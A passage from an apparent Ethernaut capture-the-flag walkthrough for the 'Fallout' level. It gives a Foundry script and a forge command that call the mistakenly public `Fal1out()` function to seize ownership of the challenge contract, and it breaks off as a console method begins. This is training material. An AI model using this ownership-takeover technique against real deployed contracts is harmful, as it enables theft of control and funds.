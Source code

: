 ### Exploiting the Vulnerability
All we need to do is call the public `Fal1out()` function and it will update the owner variable with our address. Let’s solve it with Foundry.

First, we will create in the src\ folder the Fallout.sol contract and paste the original contract code:

Then we will create a new file inside the `script\` folder called `FalloutSolution.s.sol`

`FalloutSolution.s.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

// Objective
// 1. Claim the ownership of the contract.

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Fallout.sol";

contract FalloutSolution is Script {

    Fallout public fallout = Fallout(payable(0x762e68df2BdBE79f8d8e18E1c5bd33816181e9C5));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("Owner Before: ", fallout.owner());

        fallout.Fal1out();

        console.log("Owner After: ", fallout.owner());
        vm.stopBroadcast();
    }

}
```

Now that the exploit script is ready, we can execute from our terminal the following command: `forge script script/FalloutSolution.s.sol --rpc-url $INFURA_URL --broadcast`

---

### **Ethernaut Fallout Challenge - Easy Console Method**

### **📌 Solving via Console**
There is an **easier way** to solve this challenge directly from the **console**.

---

**1️⃣ Open Console & Get the Instance**
First, open the **console** and retrieve the contract instance.
